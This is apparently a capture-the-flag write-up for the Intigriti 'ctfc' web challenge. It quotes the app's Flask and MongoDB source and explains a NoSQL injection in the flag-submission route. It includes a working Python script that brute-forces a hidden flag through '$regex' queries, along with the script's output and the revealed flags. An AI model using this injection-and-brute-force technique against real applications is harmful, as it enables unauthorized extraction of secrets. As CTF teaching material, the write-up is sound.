

# Web

## ctfc


### Info


## solution:

After analysing the code source we can know that there is another third challenge and it's not appearing in the dashboard:

```python
def createChalls():
	db.challs.insert_one({"_id": "28c8edde3d61a0411511d3b1866f0636","challenge_name": "Crack It","category": "hash","challenge_description": "My friend sent me this random string `cc4d73605e19217bf2269a08d22d8ae2` can you identify what it is? , flag format: CTFC{<password>}","challenge_flag": "CTFC{cryptocat}","points": "500","released": "True"})
	db.challs.insert_one({"_id": "665f644e43731ff9db3d341da5c827e1","challenge_name": "MeoW sixty IV","category": "crypto","challenge_description": "hello everyoneeeeeeeee Q1RGQ3tuMHdfZzBfNF90aDNfcjM0TF9mbDRHfQ==, oops sorry my cat ran into my keyboard, and typed these random characters","challenge_flag": "CTFC{n0w_g0_4_th3_r34L_fl4G}","points": "1000","released": "True"})
	db.challs.insert_one({"_id": "38026ed22fc1a91d92b5d2ef93540f20","challenge_name": "ImPAWSIBLE","category": "web","challenge_description": "well, this challenge is not fully created yet, but we have the flag for it","challenge_flag": os.environ['CHALL_FLAG'],"points": "1500","released": "False"})

@app.route('/')
@check_login
def dashboard():
	challs = []
	for data in db.challs.find():
		del data['challenge_flag']
		challs.append(data)	
	chall_1 = challs[0]
	chall_2 = challs[1]
	return render_template('t_dashboard.html',username=session['user']['username'],chall_1=chall_1,chall_2=chall_2)
```

also from the route /submit_flag we can see how submiting works and we can see the app using mongoDB:

```python
def submit_flag():
	_id = request.json.get('_id')[-1]
	submitted_flag = request.json.get('challenge_flag')
	chall_details = db.challs.find_one(
			{
			"_id": md5(md5(str(_id).encode('utf-8')).hexdigest().encode('utf-8')).hexdigest(),
			"challenge_flag":submitted_flag
			}
	)
	if chall_details == None:
		return "wrong flag!"
	else:
		return "correct flag!"

# wait untill mongodb start then create the challs in db
sleep(10)
createChalls()
```


###NOSqli:
the first thing that comes in my mind after seeing mongoDB is trying noSQLinjection so i tried:



and yeah it worked so we are sure that it's noSQL injection.
so i tried to bruteforce the flag using `$regex` knwowing that the third challenge id is `id:3` and the flag format`INTIGRITI{`:


Now we have to write a script to automate the brute force and here the one i used:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

url = 'https://ctfc.ctf.intigriti.io/submit_flag'
headers = {
    'Host': 'ctfc.ctf.intigriti.io',
    'Cookie': 'session=eyJ1c2VyIjp7Il9pZCI6ImM0NGZkY2UyMDNiYzRiNjNhZjFhODQwMzI1Y2Y5NDA3IiwidXNlcm5hbWUiOiJ0ZWVzdCJ9fQ.ZV9gtA.QuLDFuq4rwWGeAdNfFV424ivlS4',
    'Content-Length': '59',
    'Sec-Ch-Ua': '"Chromium";v="103", ".Not/A)Brand";v="99"',
    'Sec-Ch-Ua-Mobile': '?0',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36',
    'Sec-Ch-Ua-Platform': '"Linux"',
    'Content-Type': 'application/json',
    'Accept': '*/*',
    'Origin': 'https://ctfc.ctf.intigriti.io',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-Mode': 'cors',
    'Sec-Fetch-Dest': 'empty',
    'Referer': 'https://ctfc.ctf.intigriti.io/',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'en-US,en;q=0.9',
}

_id="_id:3"
challenge_flag=""

while True:
    for c in "abcdefghtijklmopqrsuvwyzABCDEFGHIJKLMNOPQRSTUVYWZ0123456789_}":
            payload='{"_id":"%s", "challenge_flag": {"$regex": "^INTIGRITI{%s" }}' % (_id, challenge_flag + c)
            r = requests.post(url,headers=headers,data=payload, verify = False)
            if 'correct flag' in r.text:
                challenge_flag += c
                print("INTIGRITI{"+challenge_flag)
```
and we got it:
```bash
┌──(mo㉿ElMo)-[~/Documents/CTF/web-writeup]
└─$ python3 sol.py
INTIGRITI{h
INTIGRITI{h0
INTIGRITI{h0w
INTIGRITI{h0w_
INTIGRITI{h0w_1
INTIGRITI{h0w_1s
INTIGRITI{h0w_1s_
INTIGRITI{h0w_1s_7
INTIGRITI{h0w_1s_7h
INTIGRITI{h0w_1s_7h4
INTIGRITI{h0w_1s_7h4t
INTIGRITI{h0w_1s_7h4t_
INTIGRITI{h0w_1s_7h4t_P
INTIGRITI{h0w_1s_7h4t_PA
INTIGRITI{h0w_1s_7h4t_PAW
INTIGRITI{h0w_1s_7h4t_PAWS
INTIGRITI{h0w_1s_7h4t_PAWSI
INTIGRITI{h0w_1s_7h4t_PAWSIB
INTIGRITI{h0w_1s_7h4t_PAWSIBL
INTIGRITI{h0w_1s_7h4t_PAWSIBLE
INTIGRITI{h0w_1s_7h4t_PAWSIBLE}
```


